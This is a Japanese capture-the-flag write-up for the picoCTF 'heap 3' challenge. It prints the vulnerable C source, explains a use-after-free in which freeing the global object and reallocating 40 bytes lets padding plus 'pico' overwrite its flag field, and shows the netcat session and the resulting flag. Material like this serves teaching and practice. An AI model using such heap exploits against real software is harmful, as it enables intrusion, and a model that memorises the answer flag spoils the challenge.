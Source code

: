 # heap 3:Binary Exploitation:200pts
This program mishandles memory. Can you exploit it to get the flag?  
Download the binary [here](chall).  
Download the source [here](chall.c).  
Connect with the challenge instance here:  
`nc tethys.picoctf.net 63226`  

Hints  
Check out "use after free"  

# Solution
バイナリ、ソースと接続先が渡される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x->flag, x->flag);
    printf("+-------------+-----------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Check for winで簡単に`check_win`は呼び出せるが、`x->flag`が文字列`pico`と一致する必要がある。  
`x->flag`は`init`で文字列`bico`に設定されている。  
また、Allocate objectで任意のサイズを`malloc`してデータを書き込む、Free xで`x`を`free`する機能がある。  
ただし、`malloc`は`x`とは別の位置にメモリを確保するため、`x`を書き換えることはできない。  
ここで、`x`がグローバルに定義されており、`free`などの操作を行っても`check_win`からアクセスできることに気づく。  
つまり、一度`x`を`free`し、同じチャンクサイズとなる0x28までを`malloc`するとtcachebinsにある元の`x`の領域を再度取得し書き換えることができる。  
以下のように、うまく`x->flag`の場所を書き換える。  
```bash
$ nc tethys.picoctf.net 63226

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 40
Data for flag: SATOKISATOKISATOKISATOKISATOKIpico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_a7381726}
```
Check for winでflagが得られた。  

## picoCTF{now_thats_free_real_estate_a7381726}